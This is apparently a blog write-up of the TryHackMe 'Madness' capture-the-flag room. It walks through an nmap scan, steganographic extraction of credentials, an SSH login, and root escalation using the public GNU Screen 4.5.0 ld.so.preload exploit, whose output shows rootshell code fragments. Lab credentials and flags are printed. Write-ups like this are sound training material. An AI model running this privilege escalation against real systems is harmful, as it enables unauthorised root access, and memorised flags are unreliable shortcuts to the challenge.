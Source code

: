 ```yaml
---
title: "Madness - TryHackMe"
author: Ludovic COULON
date: 2020-05-15
hero: ./images/hero.png
excerpt: "Writeup for the Madness room on TryHackMe"
---
```


[TryHackMe | Madness](https://tryhackme.com/room/madness)

![https://i.imgur.com/5iW7kC8.jpg](https://i.imgur.com/5iW7kC8.jpg)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

This room is part of the Turmoil series

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.52.214
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### #1 user.txt

<div className="Image__Small">
  <img src="https://imgur.com/41PScB3.png" alt="blog_image" />
</div>

On the website in the source code we can see "They will never find me" let's wget the image and search if there is anything in there.

Once you open the image an error will show up, we need to convert the header image to a jpg file

<div className="Image__Small">
  <img src="https://imgur.com/zdz5gC1.png" alt="blog_image" />
</div>

```bash
change the first line to this
```

<div className="Image__Small">
  <img src="https://imgur.com/PklK0ei.png" alt="blog_image" />
</div>

Save the hex file and open the image to seethe result !

<div className="Image__Small">
  <img src="https://imgur.com/GrcsvaS.png" alt="blog_image" />
</div>

Nice we have a hidden directory !

<div className="Image__Small">
  <img src="https://imgur.com/01jTS9C.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/9D3EgD5.png" alt="blog_image" />
</div>

Now we have plainly of possibility to resolve this puzzle I've choose the simpler one

I created a list with python

```bash
>>> range(100)
[0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99]
```

Then a imported this list in burp suite and I started the attack !

<div className="Image__Medium">
  <img src="https://imgur.com/ABpS7HJ.png" alt="blog_image" />
</div>

Now we can extract some files on the "thm.jpg" image from the apache website.

```bash
➜  TryHackMe steghide extract -sf thm.jpg
Enter passphrase:
the file "hidden.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "hidden.txt".

➜  TryHackMe cat hidden.txt
Fine you found the password!

Here's a username

wbxre

I didn't say I would make it easy for you!
```

After reading the hint given by TryHackMe

```bash
There's something ROTten about this guys name!
```

I tried to decode the username using the ROT13 algo

<div className="Image__Medium">
  <img src="https://imgur.com/Qn5keAi.png" alt="blog_image" />
</div>

And it worked !! Let's ssh the server now with the username and password

```bash
ssh joker@ip
password : y2RPJ4QaPF!B
```

Aaaannd it's not working for some reason.. After some time I tried the image on the room

<div className="Image__Small">
  <img src="https://imgur.com/P13mnW4.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe steghide extract -sf 5iW7kC8.jpg
Enter passphrase:
the file "password.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "password.txt".

➜  TryHackMe cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

"*axA&GF8dP"
```

```bash
➜  TryHackMe ssh joker@10.10.52.214
joker@10.10.52.214's password: "*axA&GF8dP"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Thu May 14 15:00:54 2020 from 10.9.2.228
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

### #2 root.txt

Now let's get a root access ! :D

```bash
joker@ubuntu:~$ sudo -l
[sudo] password for joker:
Sorry, user joker may not run sudo on ubuntu.
# Nothing to do with sudo :/
```

```bash
joker@ubuntu:~$ find /bin -perm -4000
/bin/fusermount
/bin/su
/bin/ping6
"/bin/screen-4.5.0"
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$
```

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/41154)

```bash
joker@ubuntu:~$ bash s.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

$ id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
$ cd /root/
$ ls
root.txt
$ cat root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```


